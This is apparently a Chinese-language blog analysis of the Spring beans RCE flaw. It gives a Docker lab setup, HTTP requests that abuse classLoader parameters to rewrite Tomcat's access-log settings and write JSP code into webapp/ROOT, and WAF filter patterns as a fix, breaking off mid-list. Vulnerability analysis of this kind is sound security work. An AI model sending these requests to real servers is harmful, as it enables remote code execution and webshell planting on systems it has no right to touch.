





# [](#spring-beans-rce-%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90)Spring beans RCE 漏洞分析

## [](#1-%E5%BD%B1%E5%93%8D%E8%8C%83%E5%9B%B4)1 影响范围

-   JDK 9 及其以上版本
-   Spring 框架以及衍生的框架 `spring-beans-*.jar` 文件或者存在 `CachedIntrospectionResults.class`

## [](#2-%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0)2 漏洞复现

### [](#21-%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA)2.1 环境搭建

本文使用的是 [spring-core-rce-2022-03-29](https://hub.docker.com/r/vulfocus/spring-core-rce-2022-03-29) docker 镜像，启动镜像：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>docker run --name springRCE -p 8090:8080 -d vulfocus/spring-core-rce-2022-03-29<br>``` |

### [](#22-%E6%BC%8F%E6%B4%9E%E5%8E%9F%E7%90%86)2.2 漏洞原理

通过直接修改 tomcat 的 log 日志配置，即可以向 `webapp/ROOT` 下写 `jsp` 文件，达到命令执行的目的，与 [s2-020](https://blog.csdn.net/god_7z1/article/details/24416717) 的利用方式相似。

首先向目标发送如下数据包：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>``` | ```fallback<br># 设置文件后缀为 .jsp<br>class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp<br><br># 设置文件前缀为 shell<br>class.module.classLoader.resources.context.parent.pipeline.first.prefix=shell<br><br># 设置日志文件的路径为 webapp/path，只有该文件下的 jsp 文件会被解析，本文以 ROOT 为例<br>class.module.classLoader.resources.context.parent.pipeline.first.directory=webapp/ROOT<br>``` |

其次，再设置 log 的 `pattern` 和 `fileDateFormat`，这里的 pattern 是有一定格式限制的，根据 [tomcat 官方](https://tomcat.apache.org/tomcat-9.0-doc/config/valve.html)对于 `Access Logging` 的定义，该项值可以为： `common` 与 `combined`，其中 `common` 的具体定义如下：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>``` | ```fallback<br>%a - Remote IP address. See also %{xxx}a below.<br>%A - Local IP address<br>%b - Bytes sent, excluding HTTP headers, or '-' if zero<br>%B - Bytes sent, excluding HTTP headers<br>%h - Remote host name (or IP address if enableLookups for the connector is false)<br>%H - Request protocol<br>%l - Remote logical username from identd (always returns '-')<br>%m - Request method (GET, POST, etc.)<br>%p - Local port on which this request was received. See also %{xxx}p below.<br>%q - Query string (prepended with a '?' if it exists)<br>%r - First line of the request (method and request URI)<br>%s - HTTP status code of the response<br>%S - User session ID<br>%t - Date and time, in Common Log Format<br>%u - Remote user that was authenticated (if any), else '-' (escaped if required)<br>%U - Requested URL path<br>%v - Local server name<br>%D - Time taken to process the request in millis. Note: In httpd %D is microseconds. Behaviour will be aligned to httpd in Tomcat 10 onwards.<br>%T - Time taken to process the request, in seconds. Note: This value has millisecond resolution whereas in httpd it has second resolution. Behaviour will be align to httpd in Tomcat 10 onwards.<br>%F - Time taken to commit the response, in milliseconds<br>%I - Current request thread name (can compare later with stacktraces)<br>``` |

`combined` 的具体定义如下：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>``` | ```fallback<br>%{xxx}a write remote address (client) (xxx==remote) or connection peer address (xxx=peer)<br><br>%{xxx}i write value of incoming header with name xxx (escaped if required)<br><br>%{xxx}o write value of outgoing header with name xxx (escaped if required)<br><br>%{xxx}c write value of cookie with name xxx (escaped if required)<br><br>%{xxx}r write value of ServletRequest attribute with name xxx (escaped if required)<br><br>%{xxx}s write value of HttpSession attribute with name xxx (escaped if required)<br><br>%{xxx}p write local (server) port (xxx==local) or remote (client) port (xxx=remote)<br><br>%{xxx}t write timestamp at the end of the request formatted using the enhanced SimpleDateFormat pattern xxx<br>``` |

本文的写 webshell 的方案即是选择 `combined` 相关格式字符。

由于写入一句话 webshell 时，需要一些特殊字符，如：`%`，而 `%` 在日志的配置中又具有特殊含义，直接在 `pattern` 中写入会报错


总之，需要避开直接对于百分号的写入，下文尝试了有三种方式去定义 pattern。

#### [](#221-%E4%BB%8E-header-%E4%B8%AD%E8%AF%BB%E5%8F%96)2.2.1 从 header 中读取

由上文可知，`%{xxx}c` 项的作用是：从 HTTP Cookie 中读取 xxx 项，并写入到 log 文件中。因此数据包定义为：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```fallback<br>class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=1<br>class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bcmd%7Dc<br>``` |

最后的 HTTP 请求为：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>``` | ```http<br>GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bcmd%7Dc HTTP/1.1<br>Host: IP:PORT<br>Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9<br>Accept-Encoding: gzip, deflate<br>Accept-Language: zh-CN,zh;q=0.9,en;q=0.8<br>Cookie: remember-me=YWRtaW46MTY0OTIxMzE4ODQyMTpmYzJiZTA2NWMyYzFlOGQwOTUzMWJkOGQxZmMzYmQ1Yg; cmd=<%out.println(11223344);%><br>Connection: close<br>``` |



由于 `;` 作为 Cookie 的分隔符，因此写入的内容会被截断。（不知哪位师傅有解决办法，可以分享下）：`<%out.println(11223344)`

#### [](#222-%E4%BB%8E-header-%E4%B8%AD%E8%AF%BB%E5%8F%96)2.2.2 从 header 中读取

由上文可知，`%{xxx}i` 项的作用是：从 HTTP Header 中读取 xxx 项，并写入到 log 文件中。因此数据包定义为：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```fallback<br>class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=2<br>class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bcmd%7Di<br>``` |

最后的 HTTP 请求为：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>``` | ```http<br>GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bcmd%7Di HTTP/1.1<br>Host: IP:PORT<br>cmd: <%out.println("11223344");%><br>Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9<br>Accept-Encoding: gzip, deflate<br>Accept-Language: zh-CN,zh;q=0.9,en;q=0.8<br>Cookie: remember-me=YWRtaW46MTY0OTIxMzE4ODQyMTpmYzJiZTA2NWMyYzFlOGQwOTUzMWJkOGQxZmMzYmQ1Yg<br>Connection: close<br>``` |





#### [](#223-%E7%9B%B4%E6%8E%A5%E9%85%8D%E7%BD%AE-pattern)2.2.3 直接配置 pattern

上面两种方式本人在测试时发现，`"` 引号会被转义为 `\"`，存在一定缺陷。

此外，由上文可知，`%{xxx}t` 项的作用是：以 `simpleDateFormat` 格式定义日志中的 `timestamp`，比如：可以看到 `%` 可以正常输出。


因此数据包定义为：`%{%}t`，这样就可以向 log 文件中写入 `%` 了。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```fallback<br>class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=3<br>class.module.classLoader.resources.context.parent.pipeline.first.pattern=%3C%25%7B%25%7Dtout.println(%22POC%20Test%22)%3B%25%7B%25%7Dt%3E<br>``` |



查看文件：



## [](#3-%E4%B8%B4%E6%97%B6%E4%BF%AE%E5%A4%8D%E6%96%B9%E6%A1%88)3 临时修复方案

-   WAF 中对参数中出现的 `class.*`， `Class.*`，`*.class.*`， `*.Class.*` 字符串的规则过滤
-   全局搜索 `@InitBinder` 注解，判断方法体内是否有 dataBinder.setDisallowedFields 方法， 如果有使用则在原来的黑名单中添加：
